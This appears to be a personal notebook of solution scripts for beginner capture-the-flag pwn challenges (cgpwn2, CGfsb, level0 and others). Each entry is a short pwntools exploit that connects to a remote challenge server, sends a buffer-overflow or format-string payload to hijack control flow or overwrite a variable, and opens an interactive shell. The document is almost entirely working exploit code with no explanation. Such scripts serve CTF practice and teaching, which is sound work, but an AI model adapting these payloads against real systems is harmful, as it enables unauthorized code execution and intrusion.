 # cgpwn2
```python
from pwn import*
p=remote('111.198.29.45','43090')

naddr=0x804a080
sysaddr=0x8048420

pay='a'*(0x26+4)+p32(sysaddr)+'a'*4+p32(naddr)

p.recv()
p.sendline('/bin/sh\x00')

p.recv()
p.sendline(pay)

p.interactive()
```

# when_did_you_born

```python
from pwn import *
p=remote('111.198.29.45',38206)
pay1='1999'
pay2='a'*8+p64(1926)
p.recvuntil('?')
p.sendline(pay1)
p.recvuntil('?')
p.sendline(pay2)
p.interactive()
```

# CGfsb

```python
from pwn import *
p=remote('111.198.29.45',57986)

addr=0x0804a068
pay1='ffdy'
pay2=p32(addr)+'a'*4+'%10$n'

p.recvuntil(':')
p.sendline(pay1)
p.recvuntil(':')
p.sendline(pay2)
p.interactive()
```

# hello_pwn

```python
from pwn import *
pay='a'*4+p64(1853186401)
p=remote('111.198.29.45',35522)
p.recvuntil('bof')
p.sendline(pay)
p.interactive()
```

# level0

```python
from pwn import *
p=remote('111.198.29.45',51703)
addr=0x400596
pay='a'*(0x80+8)+p64(addr)
p.sendline(pay)
p.interactive()
```

# 
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTc0OTc5MzI4M119
-->
